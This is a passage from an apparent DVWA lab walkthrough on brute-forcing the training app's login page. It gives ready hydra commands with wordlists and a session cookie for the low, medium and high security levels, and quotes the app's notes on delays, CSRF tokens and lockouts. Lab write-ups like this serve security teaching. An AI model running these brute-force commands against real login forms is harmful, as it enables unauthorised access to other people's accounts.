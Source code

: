 3. Build a `hydra` command using the above info:

	```shell
	hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=low:F=Username and/or password incorrect." -t 30
	```

	![](low_hydra.png)

	![](low_success.png)

## Security: Medium

> _This stage adds a sleep on the failed login screen. This mean when you login incorrectly, there will be an extra two second wait before the page is visible. This will only slow down the amount of requests which can be processed a minute, making it longer to brute force._

Almost identical `hydra` command as before, just change `security=low` to `security=medium`:

```shell
hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=medium:F=Username and/or password incorrect." -t 30
```

![](medium_hydra.png)

## Security: High

> _There has been an "anti Cross-Site Request Forgery (CSRF) token" used. There is a old myth that this protection will stop brute force attacks. This is not the case. This level also extends on the medium level, by waiting when there is a failed login but this time it is a random amount of time between two and four seconds. The idea of this is to try and confuse any timing predictions. Using a CAPTCHA form could have a similar effect as a CSRF token._

Same concept as before, this time changing `security=medium` to `security=high`:

```shell
hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=high:F=Username and/or password incorrect." -t 30
```

![](high_hydra.png)

## Security: Impossible

> _Brute force (and user enumeration) should not be possible in the impossible level. The developer has added a "lock out" feature, where if there are five bad logins within the last 15 minutes, the locked out user cannot log in. If the locked out user tries to login, even with a valid password, it will say their username or password is incorrect. This will make it impossible to know if there is a valid account on the system, with that password, and if the account is locked. This can cause a "Denial of Service" (DoS), by having someone continually trying to login to someone's account. This level would need to be extended by blacklisting the attacker (e.g. IP address, country, user-agent)._

